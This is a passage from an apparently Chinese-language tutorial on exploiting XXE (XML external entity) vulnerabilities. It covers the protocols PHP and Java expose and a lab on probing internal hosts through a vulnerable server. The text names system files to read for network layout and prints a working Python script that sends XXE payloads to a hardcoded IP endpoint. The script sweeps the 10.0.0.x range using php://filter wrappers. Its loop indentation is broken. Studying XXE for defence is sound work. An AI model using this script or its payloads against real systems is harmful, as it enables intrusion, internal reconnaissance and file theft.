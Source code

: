 ### **新的利用：**

所以要想更进一步的利用我们不能将眼光局限于 file 协议，我们必须清楚地知道在何种平台，我们能用何种协议

**如图所示:**

![image-20231218150658860](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218150658860.png)

PHP在安装扩展以后还能支持的协议：

**如图所示：**

![image-20231218150755337](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218150755337.png)

> **注意：**
>
> 1.其中从2012年9月开始，Oracle JDK版本中删除了对gopher方案的支持，后来又支持的版本是 Oracle JDK 1.7
> update 7 和 Oracle JDK 1.6 update 35
> 2.libxml 是 PHP 的 xml 支持

### **实验三：HTTP 内网主机探测**

我们以存在 XXE 漏洞的服务器为我们探测内网的支点。要进行内网探测我们还需要做一些准备工作，我们需要先利用 file 协议读取我们作为支点服务器的网络配置文件，看一下有没有内网，以及网段大概是什么样子（我以linux 为例），我们可以尝试读取 /etc/network/interfaces 或者 /proc/net/arp 或者 /etc/host 文件以后我们就有了大致的探测方向了

**下面是一个探测脚本的实例：**

```
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>


def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://34.200.157.128/CUSTOM/NEW_XEE.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(1, 255):
    try:
        i = str(i)
        ip = '10.0.0.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
continue
```
